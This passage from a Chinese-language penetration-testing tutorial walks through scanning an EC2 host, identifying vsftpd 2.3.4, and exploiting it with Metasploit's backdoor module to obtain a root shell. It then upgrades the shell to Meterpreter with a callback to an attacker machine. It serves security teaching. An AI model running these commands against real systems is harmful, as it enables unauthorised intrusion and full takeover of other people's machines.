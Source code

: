这将给我们以下输出：

![图 9.32 - 使用 Metasploit 扫描我们的主机的端口](img/Figure_9.32_B15630.jpg)

图 9.32 - 使用 Metasploit 扫描我们的主机的端口

正如你所看到的，我们在主机上打开了端口`22`和端口`21`。我们可以确认我们的怀疑，端口`21`确实是打开的。既然我们已经确认它是打开的，让我们继续收集有关端口`21`的更多信息。

## 对易受攻击的服务进行信息收集

继续前进，我们需要确定运行在端口`21`上的应用程序和版本号。为了帮助我们发现这一点，我们将使用`nmap`来扫描端口`21`并枚举该服务的版本：

```
$ nmap -sV -p21 ec2-54-189-99-52.us-west-2.compute.amazonaws.com
```

这将给我们以下输出：

![图 9.33 - 使用 Nmap 扫描我们的主机](img/Figure_9.33_B15630.jpg)

图 9.33 - 使用 Nmap 扫描我们的主机

我们现在知道了托管在目标主机上的文件服务的版本。正如你所看到的，`vsftpd 2.3.4`是系统上运行的应用程序的版本。让我们使用一个名为**SearchSploit**的程序来查看是否有我们可以针对我们的目标使用的任何漏洞利用：

```
$ searchsploit vsftpd 2.3.4
```

这将给我们以下输出：

![图 9.34 - 搜索漏洞](img/Figure_9.34_B15630.jpg)

图 9.34 - 搜索漏洞

看起来有一个**Metasploit**模块，我们可以用来利用我们的目标。我们现在有足够的信息来尝试利用我们的目标，希望能够访问目标系统。

## 使用 Metasploit 进行系统全面接管

有了关于目标的所有信息，让我们开始转变思路，进入攻击模式。要攻击应用程序，我们需要启动 Metasploit 并配置模块以适应当前目标：

```
$ use exploit/unix/ftp/vsftpd_234_backdoor
$ set rhosts <target host>
$ exploit
```

这给我们带来了以下输出：

![图 9.35 - 在目标主机上获取 root shell](img/Figure_9.35_B15630.jpg)

图 9.35 - 在目标主机上获取 root shell

正如你所看到的，我们有一个 root shell！这意味着我们完全控制了我们的目标，并可以对系统上的一切进行更改。然而，我们的 shell 可能需要在你的 shell 终端中再加一点“背景”。

现在我们回到了我们的 Metasploit 终端，让我们使用`shell_to_meterpreter`模块来升级我们当前的 shell。以下内容将为我们选择和配置这个模块：

```
$ use post/multi/manage/shell_to_meterpreter
$ set session 1
$ set lhost <public dns kali AWS>
$ exploit
```
